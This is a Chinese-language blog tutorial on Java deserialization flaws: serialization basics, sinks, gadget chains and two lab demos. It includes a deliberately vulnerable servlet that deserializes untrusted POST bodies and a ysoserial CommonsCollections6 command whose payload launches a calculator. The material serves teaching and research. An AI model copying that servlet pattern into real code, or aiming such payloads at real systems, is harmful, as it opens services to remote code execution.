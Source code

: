 ```yaml
---
layout: post
title: 'JAVA反序列化一'
subtitle: 'JAVA反序列化一'
date: 2021-09-15
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 JAVA
---
```


### 反序列化基础知识

一般来说，java的序列化与反序列化是指java Object Serialization Specification：

	序列化：ObjectOutputStream().writeObject()
	反序列化：ObjectInputStream().readObject()

广义上来说，任何将java对象与持久化的数据进行转换的过程，都可以称为序列化与反序列化：

	Fastjson
	Jackson
	xmlencoder/xmldecoder
	XStream
	....

能够进行序列化/反序列化的对象，需要实现Serializable或者Externalizable接口：

	java.io.Serializable
	java.io.Externalizable

Serializable与Externalizable有什么不同：

	Serializable无需重写，它就是一个标记接口
	Serializable提供了transient控制序列化属性，readObject和writeObject也可以完成部分属性的序列化
	Externalizable需要重写readExternal和writeExternal方法
	当我们同时实现了两个接口时，JVM只运行Externalizable接口里面的writeExternal和readExternal方法对序列化内容进行处理	
	Externalizable接口的实现方式一定要有默认的无参构造函数
	采用Externalizable无需产生序列化ID（serialVersionUID）而Serializable接口则需要
	相比较Serializable，Externalizable序列化、反序列化更加快速，占用相对较小的内存

serialVersionUID的作用

	在序列化的时候保证与本地类的版本相同

transient关键字
	
	在序列化一个类的时候，有时候并不想写入多余的数据那该怎么做呢？
	transient关键字：
		关键字修饰成员变量的时候，该成员不会被序列化

	那么问题来了,虽然id被transient修饰，但是可以被修改吗?
		定制化

java序列化包

![](https://1024861435.github.io/assets/img/JAVA反序列化1.png)

![](https://1024861435.github.io/assets/img/JAVA反序列化2.png)

java序列化包分析工具

![](https://1024861435.github.io/assets/img/JAVA反序列化3.png)

从上可以得出结论，如果一个类需要序列化那么需要这个类或者父类实现Serializable或者Externalizable接口

对一个类进行序列化需要执行ObjectOutputStream.writeObject方法写入对象。

对一个类进行反序列化需要ObjectInputStream.readObject从输入流中读取字节然后转化成对象

在序列化的过程中，被反序列化操作的类不会执行构造方法。

### 反序列化成因

java反序列化漏洞：

	如果java应用对来源不可信的数据进行了反序列化处理，那么攻击者通过构造恶意输入，让反序列化产生非预期的对象，非预期的对象在生产过程中就可能带来安全问题

在readObject中可能存在可被执行的操作

![](https://1024861435.github.io/assets/img/JAVA反序列化4.png)

![](https://1024861435.github.io/assets/img/JAVA反序列化5.png)

在序列化漏洞中，我们可以将可执行代码的位置称之为sink

	Runtime.exec(),这种最为简单直接，即直接在目标环境中执行命令
	Method.invoke(),这种需要适当的选择方法和参数，通过反射执行java方法
	RMI/JNDI/JRMP等，通过引用远程对象，间接实现任意代码执行的效果 

Gadget

通过source各种方法之间的调用到sink点（同php）
有没有一款工具帮我们找

![](https://1024861435.github.io/assets/img/JAVA反序列化6.png)


那就需要根据程序中已有的类库进行构造利用链（Gadget）

java反序列化产生的因素：
	
	对不可信数据进行反序列化处理
	系统应用环境里存在能够被利用的反序列化利用链（Gadget）

如何在没有漏洞的代码中利用反序列化

	寻找项目中的依赖库
好了？
	
	ysoserial

### 漏洞演示

漏洞代码（导入/commons-collections3.2.1）

	import java.io.FileInputStream;
	import java.io.IOException;
	import java.io.ObjectInputStream;
	
	public class testCC {
	    public static void main(String[] args) throws IOException,ClassNotFoundException{
	        ObjectInputStream ois=new ObjectInputStream(new FileInputStream("D:\\web1\\src\\learn\\resources\\cc6n.ser"));
	        ois.readObject();
	        ois.close();
	    }
	}


利用ysoserial生成一个ccn6.ser的文件

	cmd命令：java -jar D:\ysoserial\ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 calc >cc6n.ser	

运行弹出计算机

![](https://1024861435.github.io/assets/img/JAVA反序列化7.png)

### 漏洞演示二

1.搭建Java web环境

2.写入漏洞代码


	import com.sun.net.httpserver.HttpServer;
	import javafx.scene.input.TouchEvent;
	
	import javax.servlet.annotation.WebServlet;
	import javax.servlet.http.HttpServlet;
	import javax.servlet.http.HttpServletRequest;
	import javax.servlet.http.HttpServletResponse;
	import javax.xml.ws.WebFault;
	import java.io.IOException;
	import java.io.ObjectInputStream;
	
	@WebServlet("/serial")
	public class SerialServlet extends HttpServlet {
	    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException{
	        resp.getWriter().write("");
	    }
	    protected void doPost (HttpServletRequest req,HttpServletResponse resp)throws IOException{
	        ObjectInputStream ois = new ObjectInputStream(req.getInputStream());
	        try {
	            ois.readObject();
	
	        } catch (ClassNotFoundException e) {
	            e.printStackTrace();
	        }
	    }
	}

在readObject()中存在漏洞反序列化的漏洞

3.利用漏洞演示一中ysoserial生成的cc6n.ser作为payload，通过brupsuite post传入

![](https://1024861435.github.io/assets/img/JAVA反序列化9.png)

放回200 并且弹出计算机窗口

![](https://1024861435.github.io/assets/img/JAVA反序列化10.png)


